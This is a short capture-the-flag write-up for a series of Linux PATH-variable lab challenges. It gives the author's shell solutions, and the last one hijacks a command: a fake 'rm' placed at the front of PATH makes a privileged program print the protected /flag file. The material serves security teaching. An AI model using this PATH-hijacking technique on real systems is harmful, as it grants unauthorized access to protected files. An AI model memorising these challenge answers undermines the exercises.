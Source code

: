 # The PATH Variable
```
PATH=""
/challenge/run
```

# Setting PATH
```
PATH=/challenge/more_commands
/challenge/run
```

# Adding Commands
Using option 2 to evade inability to read `/flag`. First make a file `win` that runs `cat /flag`, make `win` executable, then append `win` to the `PATH` variable. Finally run `/challenge/run`.
```
echo "cat /flag" > win
chmod +x win
export PATH=$PATH:./
/challenge/run
```

# Hijacking Commands
I have to use the fact that `/challenge/run` is running `rm` to my advantage. I can make my own command `rm` which runs `cat /flag`, and add this directory before the rest in the `PATH` variable. 
```
echo "cat /flag" > rm
chmod +x rm
export PATH=./:$PATH
/challenge/run
```